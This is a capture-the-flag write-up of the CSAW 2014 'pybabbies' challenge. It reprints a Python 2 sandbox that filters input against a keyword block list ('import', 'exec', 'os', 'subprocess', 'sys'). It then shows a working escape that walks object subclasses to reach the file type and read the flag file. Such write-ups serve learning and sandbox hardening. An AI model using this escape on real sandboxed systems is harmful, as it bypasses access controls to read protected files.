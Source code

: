 Title: CSAW 2014 Writeup: pybabbies
Date:   2014-09-26
Category: writeups
Tags: ctf,writeups,csaw,exploitation
Lang: en
Slug: csaw14
Authors: rixx
Summary: Writeup of the pybabbies task at the recent CSAW14. Category: Exploitation. Points: 200. Team: krebs.

At the recent [CSAW14](https://ctf.isis.poly.edu/challenges#) I participated with the [krebs](http://krebsco.de/writeups/index.html) team. Sadly, I had only little time for the CTF, but I managed to complete one task nonetheless. It was called **pybabbies**, belonged to the category **Exploitation** and yielded **200** points (on a scale from 100 to 500).

## The Task

We were to connect to `54.165.210.171 12345` where we were greeted by a Python shell. Thankfully the code for this shell was included in the task:


    #!/usr/bin/env python 
    
    from __future__ import print_function
    
    print("Welcome to my Python sandbox! Enter commands below!")
    
    banned = [
        "import",
        "exec",
        "eval",
        "pickle",
        "os",
        "subprocess",
        "kevin sucks",
        "input",
        "banned",
        "cry sum more",
        "sys"
    ]
    
    targets = __builtins__.__dict__.keys()
    targets.remove('raw_input')
    targets.remove('print')
    for x in targets:
        del __builtins__.__dict__[x]
    
    while 1:
        print(">>>", end=' ')
        data = raw_input()
    
        for no in banned:
            if no.lower() in data.lower():
                print("No bueno")
                break
        else: # this means nobreak
            exec data

As you can see, this is a Python2 script. What it does is essentially the following:

* It removes all builtin functions and variables except for `raw_input` and `print`. This means we can't use any implicitly or explicitly used builtins such as `len` (which is commonly implicitly used in existental statements).
* It starts a REPL loop.
* It executes every (one-line) command we enter … except if it contains a banned word. Such as … `import`. Or `sys`. Or `os`. Or `eval` or `exec` or `input`. Basically everything we would want to escape the sandbox and find the keyfile.


## The Solution

Now, what we really want to do, is getting access to a file without importing any module, sending executable input or using builtin functions. This means we need access to the `file` type, which we can use to access and open files. Sooo, how do we access a file without any of this?

    >>> subclasses = ().__class__.__base__.__subclasses__()

This might look like a bit of magic, but it's really not that bad. Basically it takes a normal (albeit empty) tuple, `()`, then gets its class, which is `<type 'tuple'>`. `__base__` gets the base class of `tuple` which is `object`. `__subclasses__()` is closest to magic. It returns a list of weak references of the immediate subclasses of a class. Thankfully, in Python many classes subclass `object` directly. If this hadn't succeeded, we'd just gone on level further down the `__subclasses__()` output.

But we were lucky: at `subclasses[40]` there was `<type 'file'>`. The remainder was just finding the keyfile.

    >>> file_type = subclasses[40]
    >>> key_file = file_type('./key','r')
    >>> key = key_file.read()
    >>> print(key)
    flag{definitely_not_intro_python}

